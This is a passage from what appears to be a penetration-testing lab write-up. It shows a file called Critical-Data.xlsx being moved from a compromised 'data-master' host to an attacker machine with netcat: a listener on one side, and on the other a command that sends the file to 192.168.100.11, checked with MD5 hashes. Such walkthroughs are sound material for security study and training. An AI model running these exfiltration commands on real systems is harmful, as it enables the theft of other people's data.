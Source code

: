 <br/>

Check the MD5 hash of the file:

```
md5sum Critical-Data.xlsx
```

![picture 89](images/ecfdb62e131c8afe0a2673845196c8dbe8e0b31ea8e8da8cd9d7e8e2170f2fc9.png)  

* `905fe276a72c005fd6b5063bc6a5c51c`

<br/>

Since `nc` is available, we will use it to exfiltrate the file.

<br/>

First launch a `nc` listener on the local machine:

```
nc -nlvp 1234 > Critical-Data.xlsx && md5sum Critical-Data.xlsx
```

<br/>

Then on the `data-master` machine:

```
nc 192.168.100.11 1234 < Critical-Data.xlsx
```

![picture 90](images/5b03ece398ee48f7a9767edced347011000536236f4c3af180d38af1feb5b417.png)  

As shown, the critical information has been exfiltrated to the attacker machine.

<br/>

Inspect the content of the file:

![picture 91](images/815b1fc284a2a571955c8f3af392bc1585337c193924455f3b078885a3c61e67.png)  

